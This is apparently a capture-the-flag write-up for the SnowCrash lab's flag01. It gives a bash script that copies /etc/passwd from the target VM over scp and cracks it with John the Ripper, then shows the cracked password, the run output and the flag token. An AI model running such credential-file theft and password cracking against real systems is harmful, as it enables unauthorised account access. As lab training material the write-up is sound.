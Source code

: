 # FLAG01

The flag 01 was the first flag we found, after a quick google search on how to crack linux users passwords we found out about john the ripper

so we created a little bash script to copy the /etc/passwd from the VM to the host and crack the passwords with john

```bash
#!/bin/sh

if [$1 = ""];then
	echo "usage ./crack <ip>"
	exit 1
else
	scp -P 4242 level00@$1:/etc/passwd .
	/usr/sbin/john ./passwd --show
fi
```

we used the passwd `abcdefg` to connet to user flag01.
```
./crack.sh: 3: [192.168.1.106: not found
           _____                      _____               _     
          / ____|                    / ____|             | |    
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          192.168.1.106 
level00@192.168.1.106's password: 
passwd                                                                                                                                                             100% 2477     5.6MB/s   00:00    
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

1 password hash cracked, 0 left
```
And we got our flag using the password `abcdefg`

```
level01@SnowCrash:~$ su flag01
Password: 
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```